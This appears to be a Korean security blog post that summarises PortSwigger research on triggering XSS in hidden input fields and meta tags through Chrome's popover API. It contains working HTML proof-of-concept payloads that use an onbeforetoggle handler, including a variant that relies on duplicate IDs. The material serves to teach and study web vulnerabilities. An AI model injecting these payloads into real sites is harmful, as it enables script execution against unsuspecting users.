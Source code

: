 ```yaml
---
layout: post
title: "히든(hidden) 필드와 Meta태그에서 XSS가 가능한지 확인하기"
categories: [보안취약점, XSS]
tags: [보안취약점, XSS]
toc: true
last_modified_at: 2023-08-24 11:15:00 +0900
---
```



# 개요
- 2023년 7월에 적힌 Gareth Heyes씨의 [기술 블로그](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags)를 보고 정리한 글이다. 
- 해당 블로그에 의하면 HTML의 히든필드와 메타태그에서도 XSS가 가능하다고 한다. 
- 본래 히든 필드는 웹 이벤트가 거의 발생하지 않기 때문에 XSS가 어렵다고 알려져 있다. 
- 이 배경에는 Chrome이 발표한 신기술(popover API)가 있다고 한다. 
- 이 API를 사용하면 기존의 HTML 모달창 대신에 다음과 같은 창이 표시된다고 한다. 

![크롬 popover창 샘플](/images/chrome-popover-example.png)

- 일단 popover API에 대해 살펴보고 실제로 popover때문에 XSS가 발생할 여지가 늘어났는지 확인해보자. 


# Popover API
- popover API는 크롬 114버전부터 지원한다고 한다. 114버전은 2023년 5월24일에 출시되었다. 
- 2023년 8월24일 시점의 최신버전은 `Version 116.0.5845.96 (Official Build) (64-bit)`다. 지원하는 버전이다. 
- 

## Popover API 특징 
다음 특징이 있다고 한다. 

- Promotion to the top layer.: Popovers 는 별도의 레이어로 페이지에 표시된다. 따라서 z인덱스를 설정할 필요가 없다. Popovers will appear on a separate layer above the rest of the page, so you don’t have to futz around with z-index.
- Light-dismiss functionality.: popover 영역의 바깥쪽을 클릭하면 popover가 사라진다. Clicking outside of the popover area will close the popover and return focus.
- Default focus management: popover를 여는 것은 다음 탭이 popover로 들어오는 것을 막는다(?) Opening the popover makes the next tab stop inside the popover.
- Accessible keyboard bindings.: esc키를 누르면 popover가 사라진다. Hitting the esc key will close the popover and return focus.
- Accessible component bindings.: popover 엘레먼트를 popover 트리거와 연결한다. Connecting a popover element to a popover trigger semantically.

## Popover API사용법
자바스크립트를 사용하지 않고도 사용할 수 있다고 한다. 기본적인 popover는 다음 세가지가 필요하다. 
1. `popover` 속성: popover를 나타낼 엘레먼트(div등)에 이 속성을 추가한다. 
2. `id` 속성: popover를 나타낼 엘레먼트(div등) 의 id값(value)를 가지고 있어야 한다. 
3. `popovertarget` 속성: popover를 나타내는 이벤트의 Trigger가 되는 엘레먼트(버튼등)에 이 속성을 추가한다. 

```html
<button popovertarget="my-popover"> Open Popover </button>

<div id="my-popover" popover>
  <p>I am a popover with more information.</p>
</div>
```

위의 코드를 실행한 결과는 다음과 같다. 버튼을 누르면 화면에  popover (I am a popover with more information부분) 가 나타난다. 

![샘플실행](/images/chrome-popover-example-sample.png)

# XSS 테스트
## 기본
일단 기본형을 테스트해본다. 코드는 다음과 같다. 

```html
<html>
<body>
<button popovertarget=x> Click me</button>
<xss onbeforetoggle=alert(1) popover id=x>XSS</xss>
</body>
</html>
```

크롬으로 실행해보면 다음과 같이 alert이 실행되는 것을 볼 수 있다. 

![popover-xss-basic](/images/popover-xss-basic.png)

## XSS in hidden input
그러면 이어서 두 번째 형태를 테스트해본다. hidden 타입의 input 엘레먼트에서도 이벤트가 발동해서 XSS가 가능한지 확인해본다. 본래 히든 필드는 웹 이벤트가 거의 발생하지 않기 때문에 XSS가 어렵다고 알려져 있다. 

```html
<html>
<body>
<button popovertarget=x> Click me</button>
<input type="hidden" value="y" popover id=x onbeforetoggle=alert(1)>
</body>
</html>
```

크롬으로 실행해보면 alert이 실행되는 것을 볼 수 있다. 

## XSS in hidden input (ID가 중복된 경우)
ID가 중복되는 경우는 어떻게 될까? 다음 HTML문서내에는 id 속성의 값 `x`를 가진 엘레먼트가 두 개 존재한다. hidden 인풋과 div 엘레먼트가 그 것이다. hidden 인풋쪽은 XSS로 코드가 삽입되었다고 상정한다. 이 문서를 실행하면 원래있던 div 엘레먼트를 우선하여 popover가 실행될까? 아니면 인젝션된 input 엘레먼트가 우선되어 alert창이 실행될까? chrome에서 테스트해보면 alert창이 실행되는 것을 볼 수 있다. HTML문서 내에서 상위에 위치하기 때문이다. input 필드가 원래 있던 div 보다 하위에 위치하면 div가 우선되어 popover로 나타난다. 

```html
<html>
<body>
<!-- Injection occurs inside a hidden input attribute -->
<input type="hidden" value="y" popover id=x onbeforetoggle=alert(1)>

<!-- Existing popup code -->
<div id=x popover>I'm a popup</div>
<button popovertarget=x> Click me</button>
<!-- End existing code -->

</body>
</html>
```

## XSS in meta tags
popover 속성이 추가됨으로 인해 메타 태그에서도 XSS를 발동시키는게 가능하다. 메타 태그역시 hidden 인풋과 마찬가지로 발생하는 이벤트가 거의 없어 XSS가 발동되는 것이 어렵다고 알려져 있다. 다음 코드로 메타 태그에서도 XSS가 가능한 것을 확인할 수 있다. 
 
```html
<html>
<head>
    <!-- Injection occurs inside meta attribute -->
    <meta name="apple-mobile-web-app-title" content="Twitter" popover id=newsletter onbeforetoggle=alert(1) />
</head>
<body>
    <!-- Existing code-->
    <button popovertarget=newsletter>Subscribe to my newsletter</button>
    <div popover id=newsletter>My newsletter popup</div>
    <!-- End existing code-->
</body>
</html>
```

# 참고 
- https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags
- https://developer.chrome.com/blog/introducing-popover-api/
- https://developer.mozilla.org/ko/docs/Learn/JavaScript/Building_blocks/Events